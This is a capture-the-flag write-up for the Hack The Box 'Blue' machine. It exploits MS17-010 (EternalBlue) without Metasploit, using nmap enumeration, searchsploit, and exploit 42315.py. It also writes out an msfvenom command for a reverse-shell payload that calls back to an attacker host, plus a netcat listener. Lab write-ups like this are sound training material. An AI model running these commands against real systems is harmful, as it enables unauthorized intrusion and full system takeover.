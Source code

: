 # Blue without Metasploit

## Enumeration

### Run nmap scan:

#### **`nmap -T4 -A -p- 10.10.10.40`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.

![Part of nmap scan results](../.gitbook/assets/blue-nmap1.png)

![Rest of nmap scan results](../.gitbook/assets/blue-nmap2.png)

#### Dissecting the Results:

* **Port 139:** Running Microsoft Windows netbios-ssn.
* **Port 445:** Running microsoft-ds.
* **Ports 135, 49152, 49153, 49154, 49155, 49156, and 49157:** Running msrpc.
* **Host script results:** guest logon appears possible for SMB.

This is looking similar to Legacy, and since we see SMB wide open, we should run the following command:

```text
nmap -v -script smb-vuln* 10.10.10.40
```

![Results of nmap smb-vuln\* scripts ran](../.gitbook/assets/blue-nmap-smb-vuln-script.png)

We see this target is vulnerable to MS17-010, or EternalBlue. After exploiting this vulnerability, we will automatically be NT Authority System and have the highest level of privileges.

We search for an exploit for MS17-010 by using searchsploit as follows:

```text
searchsploit ms17-010
```

![](../.gitbook/assets/searchsploit-results-42315-is-more-stable-and-tested.png)

We know the box is running Windows 7 and we are not using Metasploit, so we are left with options 42031.py and 42315.py. We can inspect either one by using `searchsploit -x <script>.py` where &lt;script&gt; is replaced with the name of the script. 

## Exploitation

We notice 42315.py most likely won't crash the target and is far more simpler to use. Let's clone the exploit into the working directory with:

```text
searchsploit -m 42315
```

In the source code, we discover the following:

* Download mysmb.py since the exploit will import it. Source code provides a link to download it and it must be renamed to mysmb.py. 
* Use msfvenom to generate a reverse shell payload.
* Modify exploit to include credentials as well as the reverse shell payload.

We can use wget with the link provided in the exploits source code, which would look like this:

```text
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
```

 Simply rename it to mysmb.py and we can create our payload with:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f exe > eternal.exe
```

This command will create our payload in an executable file named eternal.exe and it will create a reverse shell. Take note of the directory where the payload is located, as it will be needed when modifying the exploit as seen here:

![Before modifying](../.gitbook/assets/before-modifying-exploit.png)

![After modifying](../.gitbook/assets/after-modifying-exploit.png)

Finally, we need to edit the "USERNAME" variable at the top of the exploit to guest:

![](../.gitbook/assets/adding-guest-as-username.png)

It's time to set up a netcat listener:

```text
nc -nlvp 7777
```

Run the exploit:

![](../.gitbook/assets/running-exploit.png)

![](../.gitbook/assets/got-shell-and-nt-authority-system.png)

We've successfully attained a shell with system privileges.

Grab user.txt and root.txt:

![](../.gitbook/assets/user-and-root-flags.png)

## Lessons Learned

Always ensure your systems are patched and up to date. If the MS17-010 security update had been applied, we would've needed to find a different method to exploit this machine.

